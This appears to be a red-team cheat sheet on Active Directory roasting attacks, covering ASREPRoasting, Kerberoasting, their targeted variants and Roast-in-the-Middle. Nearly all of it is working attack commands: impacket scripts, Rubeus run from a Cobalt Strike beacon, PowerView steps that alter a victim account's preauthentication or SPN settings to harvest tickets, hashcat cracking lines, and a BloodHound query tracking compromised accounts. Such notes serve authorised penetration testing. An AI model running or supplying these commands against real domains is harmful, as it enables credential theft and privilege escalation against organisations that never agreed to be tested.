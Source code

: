# Roasting




## ASREPRoasting

Show domain users with `DONT_REQ_PREAUTH` flag set:

```
PowerView3 > Get-DomainUser -UACFilter DONT_REQ_PREAUTH
```



### Normal


#### GetNPUsers.py

- [https://vbscrub.com/2020/02/22/impackets-getnpusers-script-explained/](https://vbscrub.com/2020/02/22/impackets-getnpusers-script-explained/)

```
$ GetNPUsers.py megacorp.local/ -dc-ip 127.0.0.1 -no-pass -usersfile ~/ws/enum/names.txt -request -outputfile asrep.in | tee GetNPUsers.out
$ cat GetNPUsers.out | grep -v 'Client not found in Kerberos database'
$ hashcat -m 18200 -O -a 0 -w 4 --session=asrep -o asrep.out asrep.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule
```


#### ASREPRoast.ps1

- [https://github.com/HarmJ0y/ASREPRoast](https://github.com/HarmJ0y/ASREPRoast)

```
PS > Get-ASREPHash -Domain megacorp.local -UserName snovvcrash
```


#### Rubeus

```
beacon> execute-assembly ADSearch.exe --search "(&(sAMAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname
beacon> execute-assembly Rubeus.exe asreproast /nowrap [/user:svc_mssql]
```



### Targeted

- [https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#asreproast](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#asreproast)

> "Given GenericWrite/GenericAll DACL rights over a target, we can modify most of the user's attributes. We can change a victim's userAccountControl to not require Kerberos preauthentication, grab the user's crackable AS-REP, and then change the setting back." (@harmj0y, [ref](https://www.harmj0y.net/blog/activedirectory/targeted-kerberoasting/))

```
PowerView3 > Get-DomainUser snovvcrash | ConvertFrom-UACValue
PowerView3 > Set-DomainObject -Identity snovvcrash -XOR @{useraccountcontrol=4194304} -Verbose
PowerView3 > Get-DomainUser snovvcrash | ConvertFrom-UACValue
ASREPRoast > Get-ASREPHash -Domain megacorp.local -UserName snovvcrash
PowerView3 > Set-DomainObject -Identity snovvcrash -XOR @{useraccountcontrol=4194304} -Verbose
PowerView3 > Get-DomainUser snovvcrash | ConvertFrom-UACValue
```




## Kerberoasting

- [http://www.harmj0y.net/blog/redteaming/rubeus-now-with-more-kekeo/](http://www.harmj0y.net/blog/redteaming/rubeus-now-with-more-kekeo/)
- [https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/](https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/)
- [https://github.com/GhostPack/Rubeus#kerberoast](https://github.com/GhostPack/Rubeus#kerberoast)
- [https://docs.microsoft.com/ru-ru/archive/blogs/openspecification/windows-configurations-for-kerberos-supported-encryption-type](https://docs.microsoft.com/ru-ru/archive/blogs/openspecification/windows-configurations-for-kerberos-supported-encryption-type)
- [https://swarm.ptsecurity.com/kerberoasting-without-spns/](https://swarm.ptsecurity.com/kerberoasting-without-spns/)
- [https://habr.com/ru/post/650889/](https://habr.com/ru/post/650889/)
- [https://m365internals.com/2021/11/08/kerberoast-with-opsec/](https://m365internals.com/2021/11/08/kerberoast-with-opsec/)
- [https://github.com/Luct0r/KerberOPSEC](https://github.com/Luct0r/KerberOPSEC)
- [https://redcanary.com/blog/marshmallows-and-kerberoasting/](https://redcanary.com/blog/marshmallows-and-kerberoasting/)
- [https://www.trustedsec.com/blog/the-art-of-bypassing-kerberoast-detections-with-orpheus/](https://www.trustedsec.com/blog/the-art-of-bypassing-kerberoast-detections-with-orpheus/)
- [https://github.com/trustedsec/orpheus](https://github.com/trustedsec/orpheus)

{% embed url="https://twitter.com/_wald0/status/1361720293539139589" %}

Check `msDS-SupportedEncryptionTypes` attribute (if RC4 is enabled):

```
PowerView3 > Get-DomainUser -Identity snovvcrash -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```



### Normal


#### GetUserSPNs.py

```
$ GetUserSPNs.py megacorp.local/snovvcrash:'Passw0rd!' -dc-ip 127.0.0.1 -request -outputfile tgsrep.in
$ hashcat -m 13100 -O -a 0 -w 4 --session=tgsrep -o tgsrep.out tgsrep.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule
```

{% hint style="info" %}
In case LDAP(S) ports are blocked, kerberoasting can be performed via the Global Catalog port (3268/TCP). For that purposes [change](https://github.com/SecureAuthCorp/impacket/blob/3c6713e309cae871d685fa443d3e21b7026a2155/examples/GetUserSPNs.py#L268) `ldap://` scheme to `gc://`.
{% endhint %}

Check if there're any **brutable** kerberoastable users with [a path to high value targets](https://github.com/ShutdownRepo/Exegol-images/blob/dcc67cbb8ec69e3dd80aa0f2d8f78980730d3dca/sources/bloodhound/customqueries.json#L34) having got cracked NTDS (useful when writing a report):

```
$ cat ~/ws/enum/tgsrep.in | grep -Pho 'krb5tgs\$23\$.*?\$' | cut -d'*' -f2 | cut -d'$' -f1 > t

$ for acc in `cat t`; do grep -ai $acc ~/ws/loot/ntds.cracked | cut -d: -f1 >> t2; done && rm t

$ vi t2
...convert domain prefix to domain suffix (megacorp.local\svcsql -> svcsql@megacorp.local)...

$ python3 max.py -u neo4j -p 'WeaponizeK4li!' mark-owned -f t2 --add-note "kerberoasted" && rm t2

$ python3 max.py -u neo4j -p 'WeaponizeK4li!' query -q 'MATCH p=shortestPath((n {owned:true})-[:MemberOf|HasSession|AdminTo|AllExtendedRights|AddMember|ForceChangePassword|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner|CanRDP|ExecuteDCOM|AllowedToDelegate|ReadLAPSPassword|Contains|GpLink|AddAllowedToAct|AllowedToAct|SQLAdmin|ReadGMSAPassword|HasSIDHistory|CanPSRemote*1..5]->(m {highvalue:true})) WHERE NOT n=m RETURN p' --path
```


#### PowerView

- [https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1#L2777)

```
PowerView3 > Invoke-Kerberoast -OutputFormat Hashcat | fl
```


#### Rubeus

- [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

```
beacon> execute-assembly ADSearch.exe --search "(&(sAMAccountType=805306368)(servicePrincipalName=*))"
beacon> execute-assembly Rubeus.exe kerberoast /format:hashcat /nowrap [/usetgtdeleg] [/user:svc_mssql]
```



### Targeted

> "We can execute 'normal' Kerberoasting instead: given modification rights on a target, we can change the user's serviceprincipalname to any SPN we want (even something fake), Kerberoast the service ticket, and then repair the serviceprincipalname value." (@harmj0y, [ref](https://www.harmj0y.net/blog/activedirectory/targeted-kerberoasting/))

```
PowerView3 > Get-DomainUser snovvcrash | select serviceprincipalname
PowerView3 > Set-DomainObject -Identity snovvcrash -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
PowerView3 > $User = Get-DomainUser snovvcrash 
PowerView3 > $User | Get-DomainSPNTicket | fl
PowerView3 > $User | select serviceprincipalname
PowerView3 > Set-DomainObject -Identity snovvcrash -Clear serviceprincipalname
```



### Roast-in-the-Middle

- [https://www.semperis.com/blog/new-attack-paths-as-requested-sts/](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/)
- [https://github.com/Tw1sm/RITM](https://github.com/Tw1sm/RITM)

```
$ sudo ritm -t 192.168.1.123 -g 192.168.1.1 -d 192.168.1.11 -u users.txt
```



### Downgrading Encryption Type (RC4)

- [https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1](https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1)
- [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberoasting-requesting-rc4-encrypted-tgs-when-aes-is-enabled](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberoasting-requesting-rc4-encrypted-tgs-when-aes-is-enabled)
- [https://vbscrub.com/tag/kerberos/](https://vbscrub.com/tag/kerberos/)

